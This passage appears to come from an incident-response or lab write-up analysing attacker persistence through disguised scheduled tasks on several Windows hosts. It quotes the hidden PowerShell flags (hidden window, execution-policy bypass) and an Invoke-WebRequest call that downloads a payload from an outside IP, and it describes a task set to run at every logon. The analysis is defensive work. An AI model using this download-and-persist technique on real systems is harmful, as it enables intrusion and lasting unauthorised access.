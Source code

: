 <img src="/assets/img/as31.png" alt="" />

These aren’t standard Windows tasks and are a classic persistence trick. What’s interesting is that they were spread across multiple hosts — the `ADFS server`, `PC02`, and `PC01` — which shows the attacker was trying to maintain access across the environment, not just on one machine.

After digging into `C:\Windows\System32\Tasks`, I pulled up the XML for the PowerShellUpdate scheduled task. 

<img src="/assets/img/as32.png" alt="" />

The task is set to run PowerShell with hidden and `non-interactive` flags (`-WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop`) and uses `Invoke-WebRequest` to download a payload from `http://20.92.20.220:80/.`

When I dug into the `WindowsUpdateAssistant` scheduled task, it was pretty clear what the attacker was doing. The task was configured to run every time someone logged in, which is a classic way to maintain persistence on a compromised machine. 

<img src="/assets/img/as33.png" alt="" />
